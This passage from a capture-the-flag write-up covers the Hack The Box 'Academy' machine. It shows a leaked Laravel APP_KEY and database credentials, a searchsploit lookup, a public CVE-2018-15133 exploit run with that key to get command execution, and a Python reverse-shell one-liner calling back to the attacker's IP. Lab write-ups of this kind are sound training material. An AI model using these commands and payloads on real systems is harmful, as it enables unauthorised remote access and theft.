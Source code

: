 So we have to add this subdomain here.

Going into the subdomain I get a fair bit of information.

```
APP_NAME 	"Laravel"
APP_ENV 	"local"
APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
DB_HOST 	"127.0.0.1"
DB_PORT 	"3306"
DB_DATABASE 	"homestead"
DB_USERNAME 	"homestead"
DB_PASSWORD 	"secret"

```

I check for some laravel exploits:

```
root@kali:/home/kali/htb/Academy# searchsploit laravel
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Laravel - 'Hash::make()' Password Truncation Security                              | multiple/remote/39318.txt
Laravel Log Viewer < 0.13.0 - Local File Download                                  | php/webapps/44343.py
PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command E | linux/remote/47129.rb
UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read                          | php/webapps/48166.txt
UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary File Upload                 | php/webapps/46389.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@kali:/home/kali/htb/Academy# 
```

The PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution seems good. But it's a metasploit script.

I find a python one at https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py


```
root@kali:/home/kali/htb/Academy# python3 pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive

Linux academy 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

 Running in interactive mode. Press CTRL+C to exit.
$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.51",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```

